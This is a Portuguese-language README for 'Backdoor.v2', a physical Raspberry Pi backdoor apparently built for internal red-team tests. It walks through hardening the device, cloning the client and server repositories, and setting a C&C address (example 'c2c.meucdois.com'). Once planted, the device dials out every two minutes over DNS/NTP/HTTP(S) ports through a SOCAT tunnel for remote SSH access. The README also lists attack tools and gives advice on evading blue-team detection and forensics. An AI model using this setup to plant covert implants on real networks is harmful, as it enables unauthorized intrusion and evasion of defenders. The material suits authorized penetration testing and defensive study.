 ## Backdoor.v2 
Então com grandes demandas vem grandes desafios e um deles é que estou no meio de um teste interno e quero utilizar um backdoor físico para diminuir os riscos de ser pego dentro da empresa, uma vez que a minha equipe em si não vai estar dentro da empresa e sim remotamente conectada em um backdoor físico. Técnicas como RogueAP poderiam ser adotadas também onde um dispositivo tem duas interfaces, uma conectada na rede alvo e outra geralmente wireless onde os atacantes se conectam BUT não é a ideia aqui(ainda).

A ideia é a seguinte, uma vez que o raspberry for plugado na rede via RJ45 e alimentado com energia, ele irá dar boot e então ele irá tentar obter IP via DHCP, caso ele consiga um IP válido, o equipamento irá tentar fechar um túnel utilizando SOCAT com o servidor de C&C, uma vez que o túnel for estabelecido, é só conectar via SSH no backdoor por dentro do túnel. Ao contrário da versão 1 do backdoor físico(https://diesec.home.blog/2017/12/17/raspberry-backdoor-fisico/)  onde eu utilizava a onion para conectar e na verdade era uma conexão ssh reversa dentro da onion, caso o equipamento fosse capturado as chaves do C&C seriam expostas à equipe de forense e eles poderiam utilizar as mesmas para conectar etc. Nessa nova versão a segurança do C&C é melhorada nesse aspecto uma vez que a conexão SSH parte do servidor para o backdoor e não o contrário, a unica conexão reversa que o backdoor faz ao C&C é a conexão do túnel do SOCAT. 

Bom, o grande desafio dessa treta vai ser conseguir sair da rede do alvo e conectar no C&C, acho que depois disso é só não fazer nenhuma merda que dispare a alerte o blueteam dos caras que geralmente bloqueiam o ponto de rede e vão fisicamente investigar, ai na pior das hipoteses eles vão encontrar um raspberry( se encontrar, porque pretendo implantar isso de um jeito macabro). 


So lets roll.

### Environment
Para esse projeto irei estar utilizando um raspberry pi 3+ com o sistema operacional Raspbian Buster Lite - Minimal image based on Debian Buster e um Sdcard de 16Gb

```
Version: September 2019
Release date: 2019-09-26
Kernel version: 4.19
Size: 435 MB
```
Download pode ser feito aqui: https://www.raspberrypi.org/downloads/raspbian/

### Configurando o Sistema
Posteriormente a instalação do sistema operacional que não irei abordar aqui, é recomendavel que algumas alterações no sistema sejam realizadas:

Adicionando um novo usuário: 

```
~# useradd -s /bin/bash -k /etc/skel/ -m -c RedTeamUser redteam
```

Alterando a senha do usuário redteam:

```
~# passwd redteam 
New password: 
Retype new password: 
passwd: password updated successfully
```

Alterando o hostname do sistema: 
```
~# echo 'server_2030' >  /etc/hostname
```
Altere o arquivo **/etc/hosts** as linhas que possuem o antigo nome do servidor, atualize com o novo nome do servidor. 
```
127.0.1.1 	server2030
```

Adicionando o novo usuário ao grupo whell para execução do comando sudo:

```
~# usermod -aG sudo redteam
```

Bloqueando o usuário nativo do sistema: 
```
~# passwd -l pi
passwd: password expiry information changed.
```


### Realizando o Deploy no Raspberry:
Dê um clone  no repositório, no raspberry você irá precisar apenas da parte cliente. 

```
git clone https://github.com/d34dfr4m3/backdoorv2.git

```

Realize a instalação das dependências e etc executando o comando abaixo 

```
cd client
chmod +x install.sh
./install.sh
```

Antes de sair por ai plugando seu raspberry é necessário que você configure o IP do C&C no arquivo client/rev.sh, exatamente na linha 6:
```
C2='ipAddress_From_Command&Control'
```

Altere para o endereço IPv4 do seu servidor ou endereço FQDN do host, whatever. Exemplo:
```
C2='c2c.meucdois.com'
``` 

### Configurando o C&C
Dê um clone no repositório, no servidor você irá precisar apenas da parte do handler. 

```
git clone https://github.com/d34dfr4m3/backdoorv2.git
```

Realize a instação das dependências:

```
cd server
chmod +x install.sh
./install.sh
```

Então inicie o handler: 
``` 
./handler.sh start
```

Agora em teoria é só conectar seu raspberry em alguma rede ai e aguardar a conexão no C2, o raspberry irá tentar se conectar nas portas TCP 53,123,80,443 e UDP 53,123 à cada 2 minutos(tarefa agendada no crontab, n tive saco pra codar um daemon).

No C&C, para verificar as portas abertas para conexão você pode utilizar o seguinte comando:
```
./handler.sh status
```

Repare que a conexão só vai ser estabelecida quando uma interface TUN subir em ambos os hosts. 

#### Tools 
Ferramentas que serão instaladas para agilizar a etapa dos ataques:
- Responder https://github.com/lgandx/Responder
- Impacket https://github.com/SecureAuthCorp/impacket
- enum4linux https://labs.portcullis.co.uk/tools/enum4linux/
- nmap
- CrackMapExec


#### Extras:
E caralho, nunca na sua vida saia passando scan num ataque interno porquẽ se o malandro do blueteam tiver configurado triggers de detecção, você já era, tente explorar os serviços de forma natural na maneira que eles funcionam, não tente procurar por falhas conhecidas na rede porquẽ pode dar muito ruim. 

#### Links: 
- https://www.raspberrypi.org/downloads/raspbian/

